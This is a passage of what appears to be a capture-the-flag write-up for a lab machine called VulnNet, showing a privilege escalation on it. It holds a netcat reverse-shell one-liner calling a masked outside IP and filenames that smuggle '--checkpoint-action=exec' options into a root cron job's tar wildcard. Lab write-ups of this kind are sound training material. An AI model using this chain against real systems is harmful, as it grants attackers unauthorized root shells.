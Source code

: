 <br>
<br>
<br>

```bash
server-management@vulnnet:/var/opt$ ls -lah
total 12K
drwxr-xr-x  2 root root 4.0K Jan 23  2021 .
drwxr-xr-x 14 root root 4.0K Jan 23  2021 ..
-rwxr--r--  1 root root  530 Jan 23  2021 backupsrv.sh
```

```bash
server-management@vulnnet:/var/opt$ cat backupsrv.sh
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

<br>

```bash
:~/VulnNet# nc -nlvp 4444
Listening on 0.0.0.0 4444
```

<br>

```bash
server-management@vulnnet:~/Documents$ nano shell.sh
server-management@vulnnet:~/Documents$ cat shell.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.xxx.xxx.xxx 4444 >/tmp/f
server-management@vulnnet:~/Documents$ echo > '--checkpoint=1'
server-management@vulnnet:~/Documents$ echo > '--checkpoint-action=exec=sh shell.sh'
```
